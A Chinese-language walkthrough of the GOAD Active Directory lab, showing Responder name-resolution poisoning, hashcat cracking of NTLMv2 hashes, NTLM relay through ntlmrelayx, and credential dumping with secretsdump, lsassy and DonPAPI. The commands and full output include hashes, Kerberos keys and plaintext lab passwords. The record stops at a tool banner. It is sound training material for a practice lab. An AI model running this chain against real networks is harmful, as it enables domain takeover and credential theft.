

# GOAD 投毒和中继

## Responder

可以使用[Responder](https://github.com/lgandx/Responder)获得如下信息:

* 用户名
* netntlmv1哈希(如果服务器很旧)/netntlmv2哈希
* 重定向身份验证的能力(NTLM 中继)
* .....

在实验室中，有两个bots来模拟 LLMRN、MDNS 和 NBT-NS 请求，一名用户的密码较弱，但没有管理员权限，另一个用户拥有管理员权限，但使用强密码

启动Responder

```bash
sudo responder -I eth1
```

```bash
[*] [NBT-NS] Poisoned answer sent to 192.168.56.11 for name MEREN (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[SMB] NTLMv2-SSP Client   : fe80::95bf:b9ba:b521:19b9
[SMB] NTLMv2-SSP Username : NORTH\eddard.stark
[SMB] NTLMv2-SSP Hash     : eddard.stark::NORTH:902277346de724b8:73E92F21794E831AC88EA7EB72488719:01010000000000000083AE7601B2D9017B71C0D28CE1089E0000000002000800580045004200360001001E00570049004E002D003600320056005700450045005100450059004200550004003400570049004E002D00360032005600570045004500510045005900420055002E0058004500420036002E004C004F00430041004C000300140058004500420036002E004C004F00430041004C000500140058004500420036002E004C004F00430041004C00070008000083AE7601B2D901060004000200000008003000300000000000000000000000003000000A49D6368B08D1DC46EF5B3229E5336013E07F16707B08028CB7288A71959D880A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] Skipping previously captured hash for NORTH\eddard.stark
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Meren.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Meren
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Meren
[*] Skipping previously captured hash for NORTH\eddard.stark
[*] [NBT-NS] Poisoned answer sent to 192.168.56.11 for name BRAVOS (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Bravos
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos
[*] [MDNS] Poisoned answer sent to 192.168.56.11   for name Bravos.local
[*] [MDNS] Poisoned answer sent to fe80::95bf:b9ba:b521:19b9 for name Bravos.local
[*] [LLMNR]  Poisoned answer sent to 192.168.56.11 for name Bravos
[SMB] NTLMv2-SSP Client   : fe80::95bf:b9ba:b521:19b9
[SMB] NTLMv2-SSP Username : NORTH\robb.stark
[SMB] NTLMv2-SSP Hash     : robb.stark::NORTH:f8ca94abf87f34dd:6630B0A3FF693B689B40402EA0EEF3B1:01010000000000000083AE7601B2D901FEB19EA948E074840000000002000800580045004200360001001E00570049004E002D003600320056005700450045005100450059004200550004003400570049004E002D00360032005600570045004500510045005900420055002E0058004500420036002E004C004F00430041004C000300140058004500420036002E004C004F00430041004C000500140058004500420036002E004C004F00430041004C00070008000083AE7601B2D901060004000200000008003000300000000000000000000000003000000A49D6368B08D1DC46EF5B3229E5336013E07F16707B08028CB7288A71959D880A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000

```

```bash
hashcat -m 5600 --force -a 0 responder.hashes rockyou.txt
```

```bash
ROBB.STARK::NORTH:f8ca94abf87f34dd:6630b0a3ff693b689b40402ea0eef3b1:01010000000000000083ae7601b2d901feb19ea948e074840000000002000800580045004200360001001e00570049004e002d003600320056005700450045005100450059004200550004003400570049004e002d00360032005600570045004500510045005900420055002e0058004500420036002e004c004f00430041004c000300140058004500420036002e004c004f00430041004c000500140058004500420036002e004c004f00430041004c00070008000083ae7601b2d901060004000200000008003000300000000000000000000000003000000a49d6368b08d1dc46ef5b3229e5336013e07f16707b08028cb7288a71959d880a001000000000000000000000000000000000000900160063006900660073002f0042007200610076006f0073000000000000000000:sexywolfy
```

得到了另一个账户密码 robb.stark:sexywolfy

这足以攻占NORTH.SEVENKINGDOMS.LOCAL，因为robb.stark是NORTH.SEVENKINGDOMS.LOCAL的ADMINISTRATORS组成员


直接用获得的robb.stark密码使用secretsdump就可以获取winterfell.north.sevenkingdoms.local的SAM数据库，但是靶场设计者没有这样做，我的推测是设计者想展示更多样的攻击手段，而不是止步于此，也可能BOT只能是管理员？

```bash
secretsdump -outputfile "winterfell.north.sevenkingdoms.local" -just-dc  "winterfell.north.sevenkingdoms.local"/"robb.stark":"sexywolfy"@"192.168.56.11"
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3b491c7e98b0e08aed021c5c69d422cb:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:41eed99c9436fd9358dfe33683758410:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:7ece4bbc5022916aa87c76fd672f6739:::
rbcd_const$:1123:aad3b435b51404eeaad3b435b51404ee:0c36f3e9a47d04ea89be82a0013b1643:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:d1359ba7e922b3bed17a21b94fe62363:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:3b2731f5b271fdcc76a94c2b6da7568da8db94c414337391e4b6f3c65adc068f
krbtgt:aes128-cts-hmac-sha1-96:754f457c1a0f1e4c3ffda698db69ae13
krbtgt:des-cbc-md5:517aae9146bcf757
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
WINTERFELL$:aes256-cts-hmac-sha1-96:286c08d70729d10cbf5e8b3a3039a7c23c1b43e5b203ebafa7748b6df5f7e9a7
WINTERFELL$:aes128-cts-hmac-sha1-96:9edd5764fa8d485bf23417522ecd9329
WINTERFELL$:des-cbc-md5:23a28cc838cd8f40
CASTELBLACK$:aes256-cts-hmac-sha1-96:c98b30aa71d1c633e7d138bc9b10625cf95bdb5eb2fb8f4a53330a34f0cf3356
CASTELBLACK$:aes128-cts-hmac-sha1-96:9febbc6e09b5d83707168d6a8cb6cb8d
CASTELBLACK$:des-cbc-md5:460b8c132a58c76d
rbcd_const$:aes256-cts-hmac-sha1-96:b2797e5ce5eef123e88aceb3f4fc51fd59fe0b14e720217d7141f8a5abf60505
rbcd_const$:aes128-cts-hmac-sha1-96:b44b6b76d70482a1f4d85b9c20ba6acc
rbcd_const$:des-cbc-md5:758ff1c7a12f40cb
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:1eee7cb9a4f902debceee3e7c87cefbb1f9b9cac9771a4b0ddeb24977005c7ad
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:aab781581e6f90472126a49c0ac1bc50
SEVENKINGDOMS$:des-cbc-md5:7a265858ea9eb0d9
[*] Cleaning up... 
```

Eddard的密码比较强，用这个方法是破解不了的
这并不意味着我们无能为力，我们可以做的是将 eddard 连接中继到unsigned smb 服务器

> Responder 将日志保存在 /opt/tools/Responder/logs（在 exegol 上），如果您需要再次显示它们
>
> 如果要删除以前捕获的日志（消息跳过以前捕获的哈希）删除文件 /opt/tools/Responder/Responder.db

目前获取的凭据：

* north.sevenkingdoms.local\samwell.tarly:Heartsbane（用户描述）

* north.sevenkingdoms.local\brandon.stark:iseedeadpeople（AS-REP Roasting）

* north.sevenkingdoms.local\hodor:hodor（密码喷洒）

* north.sevenkingdoms.local\jon.snow:iknownothing（Kerberoasting）

* north.sevenkingdoms.local\robb.stark:sexywolfy （Responder）

攻克机器：

* north.sevenkingdoms.local

## NTLM Relay

首先找到signing:False的服务器

```bash
crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt
```

接下来尝试将ntlm认证中继到这些服务器

### responder + ntlmrelayx to smb

在启动responder对 LLMNR、MDNS 和 NBT-NS 请求的回复投毒之前，我们必须停止 responder监听smb 和 http 服务器，因为我们不想直接获取哈希值，但我们想将它们中继到 ntlmrelayx

```bash
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

```bash
HTTP = Off
```

```bash
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

```bash
SMB = Off
```

启动ntlmrelayx

```bash
sudo impacket-ntlmrelayx -tf relay.txt -of netntlm -smb2support -socks
```

启动

* -tf：要中继身份验证的目标列表

* -of：输出文件，这将保留捕获的SMB哈希，就像我们之前使用响应器所做的那样，以便以后破解它们

* -smb2support：支持 SMB2

* -socks：将启动袜子代理以使用中继身份验证

```bash
ntlmrelayx> socks
Protocol  Target         Username            AdminStatus  Port 
--------  -------------  ------------------  -----------  ----
SMB       192.168.56.22  NORTH/EDDARD.STARK  TRUE         445  
SMB       192.168.56.22  NORTH/ROBB.STARK    FALSE        445  
SMB       192.168.56.23  NORTH/EDDARD.STARK  FALSE        445  
SMB       192.168.56.23  NORTH/ROBB.STARK    FALSE        445  
```

* 投毒中继到了castelblack (192.168.56.22) 和 essos (192.168.56.23)，并设置了一个 socks 代理来使用该连接

* 由于 eddard.stark 是 north.sevenkingdoms.local 的域管理员，他在 castelback (192.168.56.22) 上获得了管理员权限


从图中很明显eddard.stark对MSSQL Server CASTELBLACK具有管理员权限

因为域树内建立了互相信任，所以全局组成员NORTH/EDDARD.STARK和NORTH/ROBB.STARK才可以访问essos.local中的MSSQL Server BRAAVOS 的资源

### Secretsdump

使用secretsdump获取SAM数据库、LSA缓存登录、机器帐户和一些DPAPI信息

```bash
proxychains secretsdump -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb669e202a0f8b9c8606ffb2e2ae043b1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:cb8fae3b3100fd97fef810af27d870a5107b6b63c6234e74c216abccf6a00a19
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:7d4a746188838cbbdde5cb46e8c7d670
NORTH\CASTELBLACK$:des-cbc-md5:a207f2a2dfbf20ad
NORTH\CASTELBLACK$:plain_password_hex:720076004f0037002100340032004b005b006a0039003f002300740056006c005b00710022007800200077006f0046004800640026005e0066005400360052005a0036004e00380064003e002c004e006a005f003e0062002900680055005d0067003d004d00430024004d003c00590020005e00200059007000320021006a0032005600710036003b00790048004a00540045003c005a0022004200730023005e003e00700035006b005e003b003d005c0062003d003600440074006400650071006c00750059003900430039006200390053006a006500280077002b00550074004e006200210060004d004c003c00
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:31bd66f0c6d14cc04235bc432af5c856:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x895960368af379200eca79f34713b458b878021d
dpapi_userkey:0x2d7e212a58f8898088f49bba3bc5daa7b5ad4699
[*] NL$KM 
 0000   39 FB 46 D8 43 B6 EC E6  DE D7 CE 1C 50 2D AE B4   9.F.C.......P-..
 0010   4F 71 E1 25 BF 5E FB 14  86 14 D6 A3 0F 93 DE 42   Oq.%.^.........B
 0020   06 48 F4 35 B1 45 83 7E  1A 98 29 D6 45 19 14 D2   .H.5.E.~..).E...
 0030   C4 66 57 03 2B C5 04 01  AE 33 49 CD D2 E0 92 CE   .fW.+....3I.....
NL$KM:39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce
[*] _SC_MSSQL$SQLEXPRESS 
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

* sam 数据库包含本地帐户（忽略 vagrant，因为它是设置实验室的默认用户）
* 获得了本地管理员用户的 NTLM Hash
* 获得了最后连接用户的 LSA 缓存（默认情况下 Windows 保留最后 10 个用户），即使域控制器无法访问，这对于连接到服务器也很有用，但这些缓存的凭证可以用 hashcat 离线破解（非常慢）
* 最后，我们还获得了机器帐户的哈希值（如果获取了机器帐户NTML Hash，就相当于拥有一个域用户的权限）

>使用机器帐户，您可以像任何其他域用户一样查询 LDAP，运行 Bloodhound Ingestor

### Lsassy

* 使用 lsassy 获取 lsass 进程存储的凭据

* 域帐户信息存储在 LSASS 进程中，因此转储此进程可以为您提供更多的域帐户和权限
* Lsassy 允许您远程转储 lsass（比执行 procdump、下载 lsass 转储文件并在本地执行 pypykatz 或 mimikatz 更方便），它会为您执行所有痛苦的操作，如转储和读取 lsass 内容（它也只转储 lsass 转储的有用部分优化传输时间）（lsassy 也作为一个 cme 模块存在）

```bash
proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 192.168.56.22
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] 192.168.56.22 Authentication successful
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] 192.168.56.22 Lsass dumped in C:\Windows\Temp\V2O.log (50526003 Bytes)
[+] 192.168.56.22 Lsass dump deleted
[+] 192.168.56.22 NORTH\CASTELBLACK$                      [NT] 31bd66f0c6d14cc04235bc432af5c856 | [SHA1] c3b83d288de925a4d6e8a19e461dabce7de98511
[+] 192.168.56.22 north.sevenkingdoms.local\CASTELBLACK$  [PWD] rvO7!42K[j9?#tVl[q"x woFHd&^fT6RZ6N8d>,Nj_>b)hU]g=MC$M<Y ^ Yp2!j2Vq6;yHJTE<Z"Bs#^>p5k^;=\b=6DtdeqluY9C9b9Sje(w+UtNb!`ML<
[+] 192.168.56.22 NORTH\robb.stark                        [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c
[+] 192.168.56.22 NORTH\sql_svc                           [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_83599b66.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_c1d426ae.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:17 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_b7a23061.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:17 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_6ef5c1c6.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\sql_svc       [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_sql_svc_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_3a6215d8.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_812ca443.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_e1566d0a.kirbi)
[+] 192.168.56.22 18 Kerberos tickets written to /home/kali/.config/lsassy/tickets
[+] 192.168.56.22 5 masterkeys saved to /home/kali/.config/lsassy/masterkeys.txt
```

### DonPapi

* 它用于获取 dpapi 和其他密码存储的信息（文件、浏览器、计划任务等）
* 该工具不接触 LSASS，因此它更加隐蔽，并且即使在目标上启用了 av 和 edr，也能在大多数时间工作

```
proxychains DonPAPI -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

> 笔者测试工具有报错，只能收集一部分

```bash

                                                                                
         ,                                                                      
       ,                                                 LeHack Release! 💀                       
        (                                                                       
       .                                          by Touf & Zblurx @ Login-Securite                       
                                &&&&&&                                                             
     &&&&&%%%.                  &&&&&&                                          
      &&&&%%%              &&&& &&&&&&       &&&&&&            &&&&&.           
      &&&&%%%           &&&&&&& &&&&&&    &&&&&&&&&&&&&     &&&&&&&&&&&         
      &&&&%%%         &&&&&&&&& &&&&&&  &&&&&&&&&&&&&&&&   &&&&&&&&&&&&&        
    &&&&&&%%%%%       &&&&&&    &&&&&&  &&&&&&    &&&&&&   &&&&&   &&&&&   #####  
 &&&&&&&&&%%%%%%%     &&&&&&&&&&&&&&&&  (&&&&&&&&&&&&&&&   &&&&&   &&&&&   # # #
 &/&/////////////%      &&&&&&&&&&&&      &&&&&&&&&&&&     &&&&&   &&&&&   #####
&&/&/#////////(//%         &&&&&&            &&&&&&        &&&&&   &&&&&    ###
&&/&/////////////%        
&&/&/////////////%        &&&&&&&&&        &&&&&&&&&&        &&&&&&&&&     &&&&&
&&/&//////////(//%     &&&&&&&&&&&&&&    &&&&&&&&&&&&&&   &&&&&&&&&&&&&&   &&&&&
&&/&/////////////%     &&&&&&   &&&&&&  &&&&&&   &&&&&&&  &&&&&&   &&&&&&  &&&&&
&&/&///////////(/%    &&&&&&    &&&&&&  &&&&&&    &&&&&& &&&&&&    &&&&&&  &&&&&
&&/&///(/////////%    &&&&&& &&&&&&&&&  &&&&&&&&& &&&&&& &&&&&& &&&&&&&&&  &&&&&
&&/&/////////////%    &&&&&& &&&&&&&      &&&&&&& &&&&&& &&&&&& &&&&&&&    &&&&&
&&#&###########/#%    &&&&&&                             &&&&&&                 
&&###############%    &&&&&&                             &&&&&&                

